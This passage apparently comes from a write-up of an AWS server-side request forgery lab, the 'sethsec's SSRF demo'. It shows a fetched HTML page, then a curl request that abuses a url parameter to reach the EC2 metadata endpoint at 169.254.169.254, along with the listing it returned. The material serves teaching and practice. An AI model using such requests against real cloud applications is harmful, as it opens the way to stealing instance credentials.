 ```
      gtag('config', 'UA-3235813-1');
    </script>
    <meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1">
    <title>asdf</title>
  </head>
  <body alink="#c0c000" bgcolor="#000000" link="#808080" text="#c0c0c0" vlink="#ffffff">
    <center>
      <img src="89asdf.gif" alt="asdf" height="324" width="432">
      <p>
      <font size="+2"><a href="aboutasdf.html">About</a> asdf</font>
      <p>
      <font size="+2">What is <a href="whatisasdf.html">asdf</a> ?</font>
      <p>
      <font size="+2">asdf <a href="//asdfforums.com">Forums</a></font>
      <p>
      <hr size="1" width="300">
      <p>
<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- asdf ad -->
<ins class="adsbygoogle"
     style="display:inline-block;width:728px;height:90px"
     data-ad-client="ca-pub-5526145018929722"
     data-ad-slot="6999061358"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>
</center>
  </body>
</html>
```

So, since this is an exercise tied to aws lets point this ssrf in on its self and see what happens:
```
curl http://ec2-54-85-35-195.compute-1.amazonaws.com?url=http://169.254.169.254/
```

And the response:

```
<h1>Welcome to sethsec's SSRF demo.</h1>
<h2>I am an application. I want to be useful, so I requested: <font color="red">http://169.254.169.254/</font> for you
</h2>

1.0
2007-01-19
2007-03-01
2007-08-29
2007-10-10
2007-12-15
2008-02-01
2008-09-01
2009-04-04
2011-01-01
2011-05-01
2012-01-12
2014-02-25
2014-11-05
2015-10-20
2016-04-19
2016-06-30
2016-09-02
2018-03-28
2018-08-17
2018-09-24
```